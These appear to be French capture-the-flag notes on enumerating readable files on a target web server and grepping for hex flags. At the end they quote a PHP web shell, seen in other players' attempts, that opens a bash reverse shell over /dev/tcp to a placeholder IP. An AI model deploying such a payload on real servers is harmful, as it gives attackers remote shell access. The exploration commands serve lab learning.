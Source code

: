 ## list of readables files

```sh
make run CMD="find / type f -readable"
```

pouah, y'en a plein !


fichiers notables (mais pas de fichiers flag.txt):
```
/home/admin/.bashrc
/home/admin/.profile
/home/admin/.bash_logout
/home/nginx-user/.bashrc
/home/nginx-user/.profile
/home/nginx-user/.bash_logout
/home/ubuntu/.bashrc
/home/ubuntu/.sudo_as_admin_successful
/home/ubuntu/.profile
/home/ubuntu/.bash_logout
/var/www/html/index.nginx-debian.html
/var/www/html/index.html
/var/www/challenge3/uploads/.htaccess.txt
/etc/init.d/apache2
/etc/cron.daily/apache2
/etc/php/7.4/apache2/php.ini
/etc/php/7.4/cli/php.ini
/usr/lib/php/7.4/php.ini-production
/usr/lib/php/7.4/php.ini-production.cli
/var/www/html/index.nginx-debian.html
```

chercher tout les valeurs qui ressemblent à un flag dans les fichiers lisibles : ATTENTION les flags ne sont pas des guids !

40 xdigit

```sh
find / -type f -readable -exec grep -Ewo '.*\{[[:xdigit:]]{40}\}' {} + 2>&1
```

commandes utiles

```sh
grep "^/etc/[^/]*\$" readable-files.lst
```

## autre

en surveillant les tentatives des uns et des autres

```sh
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/XXX.XXX.XX.XX/8085 0>&1'");
?>
```

